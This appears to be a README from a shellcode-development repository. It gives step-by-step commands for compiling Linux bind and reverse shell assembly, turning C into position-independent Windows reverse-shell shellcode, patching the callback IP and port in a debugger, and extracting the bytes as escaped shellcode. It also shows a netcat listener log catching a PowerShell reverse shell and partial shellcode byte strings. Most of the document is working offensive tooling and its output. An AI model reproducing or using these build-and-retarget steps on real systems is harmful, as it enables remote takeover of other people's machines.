



# Linux Assembly Code (NASM)

Commpile the bind shell assembly code:

```sh
nasm -f elf32 linux_bind_tcp_elf32.asm && ld -m elf_i386 linux_bind_tcp_elf32.asm.o -o linux_bind_tcp_elf32
```

Compile the reverse shell assembly code:

```sh
nasm -f elf32 linux_reverse_tcp_elf32.asm && ld -m elf_i386 linux_reverse_tcp_elf32.o -o linux_reverse_tcp_elf32
```

# Windows Assembly Code (MASM)

Compile the example from C to MASM, using MSVC from a console:

```cmd
cl.exe /c /GS- /FA <file>.cpp
```

Use [masm_shc](https://github.com/hasherezade/masm_shc) to clean the obtained MASM:

```cmd
masm_shc.exe <file>.asm <cleaned_file>.asm
```

Compile the resulting file by MASM into a PE 

```cmd
ml.exe <cleaned_file>.asm /link /entry:<my_entry_func> /map /section:.text,EWR
```

Note:
- ml is for 32-bit files
- ml64 for 64 bit files

> Note: You might need to delete the generated file `mllink$.lnk`.

If an error occurs such as:

```cmd
Clean_Source.asm(545) : error A2075:jump destination too far : by 7 byte(s)
```

Edit the line 545 from `Clean_Source.asm` and remove the `SHORT` operand.

## Finding IP and PORT in MASM

Filter for the IP address and port number or filter by the `; Line <NUM>` to find the line number:

```asm
; Line 128
	CALL after_$SG95500
$SG95500 DB	'127.0.0.1', 00H
	ORG $+6
after_$SG95500:
	POP  rax

; 	lea	rax, OFFSET FLAT:$SG95500
	mov	QWORD PTR ip$[rsp], rax
; Line 129
	mov	eax, 443				; 000001bbH
	mov	WORD PTR port$[rsp], ax
```

The instruction `ORG $+6` changes depending on the IP address.

**Port Number**:
When reverse engineering or disassembling the executable. The opcode column is represented in little-endian so `0x1bb` becomes `0xbb01`, which in this case is the port number `443`. The port can be replaced by converting decimal to hex and making it little-endian.

**IP Address**:
Since the IP address is being stored as bytes we can use a debugger such as x64dbg and find the pattern `127.0.0.1` in ASCII. 



In the `references` window we will be able to see the VA of the instructions. We can follow the instruction in the hexdump and from there we can see the IP address:



The IP can be replaced using ASCII to Hex such as this [converter](https://www.rapidtables.com/convert/number/ascii-to-hex.html).

Here how the IP replaced looks in the debuggeer:



Notice how the bytes are **red** this means that the values were modified. If we setup a listener on the host/node 192.168.21.129 and run the debugger we will receive a reverse shell, as seen here:

```sh
┌──(kali㉿kali)-[~]
└─$ nc -lvp 443
listening on [any] 443 ...
192.168.21.128: inverse host lookup failed: Unknown host
connect to [192.168.21.129] from (UNKNOWN) [192.168.21.128] 49752
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\user\Desktop\Malware\Project1\Project1> ls
ls


    Directory: C:\Users\user\Desktop\Malware\Project1\Project1

<...SNIP...>
```

## Windows Extract Shellcode

The `.text` section contains the executable code:

```cmd
C:\Users\user>objdump -D -M intel "C:\Users\user\Desktop\Clean_Source.exe" --section=.text
```

Objdump can be installed with [Strawberry Perl](https://strawberryperl.com/) and used with [Git Bash](https://git-scm.com/downloads).

Extract the shellcode:

```sh
user@lab MINGW64 ~/Desktop/Malware/Shellcode
$ objdump -D -M intel "Clean_Source.exe" --section=.text |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x56\x48\x8b\xf4\x48\x83\xe4\xf0\x48\x83\xec\x20\xe8\x05\x00\x00\x00\x48\x8b\xe6\x5e\xc3\x48\x81\xec\x48\x03\x00\x48\x8d\x8c\x24\x80\x00\x00\xe8\xbe\x04\x00\x00\x0f\xb6\xc0\x85\xc0\x75\x0a\xb8\x01\x00\x00\x00\xe9\x6b\x02\x00\x00\x48\x8d\x94\x24\x30\x01\x00\x48\x8d\x8c\x24\x80\x00\x00\xe8\x5e\x02\x00\x00\x0f\xb6\xc0\x85\xc0\x75\x07\x33\xc0\xe9\x48\x02\x00\x00\xe8\x10\x00\x00\x00\x75\x73\x65\x72\x33\x32\x2e\x64\x6c\x6c\x00\x00\x00\x00\x00\x00\x59\xff\x94\x24\x80\x00\x00\x48\x89\x84\x24\xb0\x00\x00\xba\x98\x01\x00\x00\x48\x8d\x8c\x24\xa0\x01\x00\xe8\x87\x0a\x00\x00\x48\x8d\x94\x24\xa0\x01\x00\x66\xb9\x02\x02\xff\x94\x24\x30\x01\x00\xba\x10\x00\x00\x00\x48\x8d\x4c\x24\x58\xe8\x65\x0a\x00\x00\xc7\x44\x24\x28\x00\x00\x00\xc7\x44\x24\x20\x00\x00\x00\x45\x33\xc9\x41\xb8\x06\x00\x00\x00\xba\x01\x00\x00\x00\xb9\x02\x0

<...SNIP...>
```

Extract port:

```sh
user@lab MINGW64 ~/Desktop/Malware/Project1/Project1
$ objdump -D -M intel "CSource.exe" --section=.text |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s | grep -o "\\\xbb\\\x01"
\xbb\x01
```

Extract the IP address `127.0.0.1` localhost:

```sh
user@lab MINGW64 ~/Desktop/Malware/Project1/Project1
$ objdump -D -M intel "CSource.exe" --section=.text |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s | grep -o "\\\x31\\\x32\\\x37\\\x2e\\\x30\\\x2e\\\x30\\\x2e\\\x31\\\x00\\\x00\\\x00\\\x00\\\x00\\\x00"
\x31\x32\x37\x2e\x30\x2e\x30\x2e\x31\x00\x00\x00\x00\x00\x00
```

You can also dump the `.text` section using PE-bear.

Alternatively, use a Hex Editor such as HxD and copy the bytes from the `.text` section (Recommended).

## Cheatsheet

Enclose with quotes:

```sh
$ awk '{ print "\""$0"\""}' test2.txt
"\x56\x48\x8B\xF4\x48\x83\xE4\xF0\x48\x83\xEC\x20\xE8\x05\x00"
"\x00\x00\x48\x8B\xE6\x5E\xC3\x48\x81\xEC\x58\x03\x00\x00\x48"
"\x8D\x8C\x24\x90\x00\x00\x00\xE8\xBC\x04\x00\x00\x0F\xB6\xC0"
```

Append to hex:

```sh
awk '{ print "code += \""$0"\""}' test2.txt
```

